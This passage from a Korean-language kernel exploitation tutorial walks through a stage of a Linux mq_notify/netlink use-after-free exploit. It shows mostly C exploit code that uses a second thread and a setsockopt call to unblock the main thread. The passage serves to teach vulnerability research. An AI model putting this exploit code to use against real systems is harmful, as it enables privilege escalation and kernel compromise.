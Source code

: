 ```c
int sock_fd = _socket(AF_NETLINK, SOCK_DGRAM, NETLINK_GENERIC); // same socket used by blocking thread
int val = 3535; // different than zero
_setsockopt(sock_fd, SOL_NETLINK, NETLINK_NO_ENOBUFS, &val, sizeof(val));
```

이걸 익스플로잇에 반영해보자

## Updating The Exploit

이전 섹션에선 어떻게 유저 영역에서 setsockopt() syscall을 이용하여 wake\_up\_interruptible()을 실행하는지 보았다. 하지만 아직 문제가 하나 남아있다. block됐으면 뭘 어떻게 호출하는가? **정답은 여러 스레드를 사용하는 것이다**!

자, 그럼 다른 스레드를 생성하도록 익스플로잇을 갱신하자(익스플로잇에서 **unblock\_thread**를 호출한다)("-pthread" 옵션을 줘서 컴파일하자):

```c
    struct unblock_thread_arg
    {
      int fd;
      bool is_ready;  // we could use pthread's barrier here instead
    };

    static void* unblock_thread(void *arg)
    {
      struct unblock_thread_arg *uta = (struct unblock_thread_arg*) arg;
      int val = 3535; // need to be different than zero

      // notify the main thread that the unblock thread has been created
      uta->is_ready = true; 
      // WARNING: the main thread *must* directly call mq_notify() once notified!
      sleep(5); // gives some time for the main thread to block

      printf("[unblock] unblocking now\n");
      if (_setsockopt(uta->fd, SOL_NETLINK, NETLINK_NO_ENOBUFS, &val, sizeof(val)))
        perror("setsockopt");
      return NULL;
    }

    int main(void)
    {
      struct sigevent sigev;
      char sival_buffer[NOTIFY_COOKIE_LEN];
      int sock_fd;
      pthread_t tid;
      struct unblock_thread_arg uta;

      // ... cut ...

      // initialize the unblock thread arguments, and launch it
      memset(&uta, 0, sizeof(uta));
      uta.fd = sock_fd;
      uta.is_ready = false;
      printf("creating unblock thread...\n");
      if ((errno = pthread_create(&tid, NULL, unblock_thread, &uta)) != 0)
      {
        perror("pthread_create");
        goto fail;
      }
      while (uta.is_ready == false) // spinlock until thread is created
        ;
      printf("unblocking thread has been created!\n");

      printf("get ready to block\n");
      if (_mq_notify((mqd_t)-1, &sigev))
```